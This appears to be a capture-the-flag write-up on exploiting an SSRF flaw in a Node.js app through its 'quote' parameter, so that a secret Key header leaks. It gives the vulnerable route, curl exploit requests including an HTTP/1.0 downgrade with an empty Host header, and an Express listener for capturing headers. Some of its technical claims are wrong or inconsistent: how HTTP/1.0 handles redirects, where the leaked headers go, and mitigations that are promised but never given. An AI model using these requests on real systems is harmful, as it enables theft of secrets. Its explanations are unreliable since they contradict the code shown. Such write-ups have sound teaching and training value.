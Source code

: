 ```yaml
---
title: Web_Dusty_alleys
published: true
---
```



# Exploiting SSRF Vulnerabilities

In this article, we will walk through the exploitation of a Server-Side Request Forgery (SSRF) vulnerability, particularly focusing on how attackers can misuse the HTTP/1.0 protocol downgrade technique to manipulate the server's behavior, leak sensitive data, and exfiltrate secrets.
What is SSRF?

Server-Side Request Forgery (SSRF) is a vulnerability where an attacker tricks the server into making an HTTP request to an unintended resource. SSRF vulnerabilities typically arise when a server is allowed to fetch URLs provided by a user, but without proper validation or restrictions. This can lead to several serious security issues, including:

    Information leakage: Sensitive data can be sent to an attacker-controlled server.

    Internal network scanning: Attackers can use the vulnerability to probe internal services or servers within the organization.

    Exploitation of other vulnerabilities: In some cases, SSRF can be used to exploit other vulnerabilities, such as those in internal services, databases, or authentication systems.

In this guide, we’ll see how an attacker might exploit an SSRF vulnerability to leak sensitive headers (like cookies or authentication tokens) to an external server under their control.
Overview of the Attack

The SSRF attack we’ll be demonstrating involves the following steps:

-   Identify the Vulnerability: An application allows the user to provide a URL (e.g., via a quote parameter) which it will then fetch using a server-side HTTP client (such as node-fetch).

- Exploit the Vulnerability Using HTTP/1.0: By downgrading the request to HTTP/1.0, the attacker can bypass certain redirect handling mechanisms and gain better control over the server’s behavior.

- Capture Sensitive Headers: The attacker crafts a malicious request that causes the server to fetch a URL they control, exfiltrating sensitive headers like the Key header, which may contain a flag or other sensitive information.



# Step 1: Identifying the Vulnerability

The application you’re targeting allows users to submit a URL via the quote parameter. When the application processes this parameter, it uses an HTTP client (like node-fetch) to make a request to the provided URL, and may forward sensitive headers such as cookies or authentication tokens.

Example of the vulnerable code:
```
router.get("/guardian", async (req, res) => {
  const quote = req.query.quote;
  try {
    let result = await node_fetch(quote, {
      method: "GET",
      headers: { Key: process.env.FLAG || "HTB{REDACTED}" },
    }).then((res) => res.text());

    res.set("Content-Type", "text/plain");
    res.send(result);
  } catch (e) {
    console.error(e);
    return res.render("guardian", { error: "The words are lost in my circuits" });
  }
});
```

Flaw: There is no restriction on where the quote parameter points. The application blindly fetches the URL and forwards headers like Key to the external server.

# Step 2: Downgrading to HTTP/1.0

One of the critical techniques in this attack is downgrading the HTTP version to HTTP/1.0. By doing this, the attacker ensures that the application’s HTTP client behaves differently and may not follow certain redirects, giving the attacker more control over the request.
Why Use HTTP/1.0?

No Automatic Redirects: In HTTP/1.1 and HTTP/2, redirections (via the Location header) are automatically followed. In HTTP/1.0, redirects must be handled manually by the client. This gives the attacker the ability to intercept and control redirects.

Bypassing Server Behavior: Many modern servers may optimize for HTTP/1.1 or HTTP/2, handling headers differently. By forcing HTTP/1.0, attackers may bypass these optimizations and force the server to handle requests in a less secure way.

# How to Force HTTP/1.0 Using curl: 

To force HTTP/1.0 in your request, you can use the `--http1.0` flag with curl.

Example command to downgrade to HTTP/1.0:

`curl http://$IP:$PORT/think --http1.0 -H 'Host:'`

In this case, you’re sending an HTTP request to the /think route with an empty Host header. This step helps you test and verify how the server responds to HTTP/1.0 requests and may reveal virtual hosts or internal configuration details.

Example Response:


```json

{
  "host": "alley.firstalleyontheleft.com",
  "x-real-ip": "10.30.18.174",
  "x-forwarded-for": "10.30.18.174",
  "x-forwarded-proto": "http",
  "connection": "close",
  "user-agent": "curl/8.12.1",
  "accept": "*/*"
}

```

Key Information: You can see the host field, which identifies the virtual host used (alley.firstalleyontheleft.com), along with additional headers that might help identify how the server is configured or its internal structure.

Step 3: Exploiting the SSRF Vulnerability

With the knowledge gained in Step 1 and Step 2, the attacker can now craft an exploit that forces the server to make a request to a location controlled by the attacker.

The goal is to make the server fetch a URL that exfiltrates sensitive headers. The quote parameter in the vulnerable /guardian endpoint can be manipulated to point to the attacker's server (which will capture the request headers).

Exploit Request:

```
curl http://$IP:$PORT/guardian?quote=http%3A%2F%2Flocalhost%3A1337%2Fthink -H 'Host: guardian.firstalleyontheleft.com'
```

Explanation: quote=http%3A%2F%2Flocalhost%3A1337%2Fthink is the URL-encoded path that will make the server send a request to `http://localhost:1337/think`
`Host: guardian.firstalleyontheleft.com` specifies the target virtual host for the request.

When the vulnerable server processes this request, it will make a server-side request to **`http://localhost:1337/think`**, and any sensitive headers (like Key, which might contain the flag) will be forwarded to the attacker’s server.


# Step 4: Capture the Flag

The attacker must set up a server to listen for incoming HTTP requests and capture sensitive headers like the Key header, which may contain the flag.

Example attacker server using Node.js (Express):

```js
const express = require('express');
const app = express();

app.get('/', (req, res) => {
    console.log('Received headers:', req.headers); // Capture sensitive headers
    res.send('Request received!');
});

app.listen(1337, () => {
    console.log('Server is listening on port 1337');
});

````


In this article, we've walked through the process of exploiting an SSRF vulnerability, leveraging HTTP/1.0 downgrades to manipulate server behavior, and capturing sensitive data through crafted HTTP requests. By following this methodology, attackers can exfiltrate secrets from vulnerable applications, while defenders can use the outlined mitigations to secure their systems from such attacks. Always be aware of SSRF risks and take proactive steps to mitigate them.
